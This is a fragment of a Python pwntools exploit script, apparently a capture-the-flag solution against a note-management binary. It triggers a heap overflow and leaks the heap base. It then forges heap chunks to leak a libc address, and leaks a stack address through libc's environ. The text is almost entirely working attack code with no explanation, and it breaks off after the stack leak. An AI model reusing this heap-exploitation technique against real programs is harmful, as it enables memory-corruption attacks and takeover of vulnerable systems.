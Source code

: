 ```python
    if is_encrypted:
        io.sendlineafter(b"Password ?", passwd)
    io.sendlineafter(b"New content len?", str(content_len).encode())
    io.sendlineafter(b"New content:", content)
    

add_new_note(b"shin24", b"shin24", False, None, 0, b"aaaaa")
add_new_note(b"shin24", b"shin24", True, b"123", 960, b"A"*(928))

edit_note(b"shin24", b"shin24", False, None, 40, b"aaaaaaa")

# old_size_payload = b"A"*(40-32) + p64(0x391)

# trigger heap overflow
note_sync(0)

read_note(b"shin24", b"shin24", False, None)

leak = io.recvline()
leak = unpack(leak[len(leak)-7:len(leak)-1], word_size=6*8)
heap_base = leak - 0xbec0

print("heap @ " + hex(heap_base))

libc_on_heap = heap_base+0x198f8

# restore old size so that `free` won't fail
# add_new_note(b"shin24", b"shin24", False, None, 960, b"A"*(928))

delete_note(b"shin24", b"shin24", False, None)


add_new_note(b"hacker", b"hacker", False, None, 1, b"bbbbb")
add_new_note(b"hacker", b"hacker", True, b"123", 452, b"A"*(248+76) + p64(0x91) + b"victim\x00\x00" + b"\x00"*56 + b"victim\x00\x00" + b"\x00"*24 + p64(0x14) + b"\x00"*8 + p64(libc_on_heap))


edit_note(b"hacker", b"hacker", False, None, 240, b"aaaaaaa")
add_new_note(b"victim", b"victim", False, None, 240, b"aaaaa")

note_sync(0)

read_note(b"victim", b"victim", False, None)

io.recvuntil(b"Content: ")

leak = unpack(io.recv(6), word_size=6*8)
libc_addr = leak-0x21b6a0

libc.address = libc_addr

print("libc @ " + hex(libc.address))

add_new_note(b"hacker2", b"hacker2", True, b"123", 452, b"A"*(248+76) + p64(0x91) + b"victim2\x00" + b"\x00"*56 + b"victim2\x00" + b"\x00"*24 + p64(0x14) + b"\x00"*8 + p64(libc.sym["environ"]))

note_sync(0)

read_note(b"victim2", b"victim2", False, None)

io.recvuntil(b"Content: ")
leak = unpack(io.recv(6), word_size=6*8)
stack_leak = leak
```